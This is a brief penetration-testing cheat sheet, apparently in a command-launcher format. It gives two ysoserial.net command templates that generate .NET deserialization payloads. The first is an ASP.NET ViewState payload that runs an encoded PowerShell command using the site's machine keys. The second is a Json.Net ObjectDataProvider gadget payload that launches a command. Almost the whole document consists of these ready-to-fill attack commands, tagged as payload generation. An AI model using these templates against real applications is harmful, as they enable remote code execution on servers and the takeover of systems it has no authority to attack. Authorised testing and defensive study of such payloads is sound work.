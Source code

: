 # ysoserial.net

% .net, unserialize

## ysoserial.net - generate payload VIEWSTATE
#plateform/windows #target/local #cat/ATTACK/GENERATE_PAYLOAD 
```cmd
ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell -EncodedCommand <base64_encoded_command>" --path="<asp_file_webroot_relative_path>" --apppath="<application_path_webroot_relative>" --decryptionalg="3DES" --decryptionkey="<decryption_key>" --validationalg="SHA1" --validationkey="<validation_state>"
```

## ysoserial.net - calc.exe payload for Json.Net using ObjectDataProvider gadget.
#plateform/windows #target/local #cat/ATTACK/GENERATE_PAYLOAD 
```cmd
ysoserial.exe -f <lib|Json.Net> -g <gadget|ObjectDataProvider> -o raw -c "<command|calc.exe>" -t
```


